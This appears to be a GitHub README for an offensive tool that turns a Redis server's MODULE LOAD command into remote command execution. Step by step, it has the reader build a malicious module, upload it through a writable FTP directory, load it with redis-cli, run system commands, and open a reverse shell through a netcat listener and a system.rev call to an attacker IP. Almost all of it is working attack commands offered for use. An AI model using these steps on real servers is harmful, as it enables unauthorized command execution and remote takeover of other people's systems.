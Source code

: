 # Redis Server Module Load Command Execution

# Usage
## compile module.so
```bash
git clone https://github.com/binaryxploit/redis-module-load-cmd-exec.git
cd ./redis-module-load-cmd-exec
make
```
## Find a way to upload module.so - POC
- Example: 
- ftp access with writable pub directory.
- PATH `/var/ftp/pub/`
```
ftp> put module.so
```
## Load the module via `redis-cli` tool for command execution
```bash
# Required tools
sudo apt-get install redis-tools -y

# Load module.so form uploaded path
REDIS-CLI:6379> MODULE LOAD /var/ftp/pub/module.so

# List Loaded modules
REDIS-CLI:6379> MODULE LIST

# Command Execution
REDIS-CLI:6379> system.exec "id"

# Reverse Shell
nc -nvlp 80
REDIS-CLI:6379> system.rev 192.168.100.10 80
```
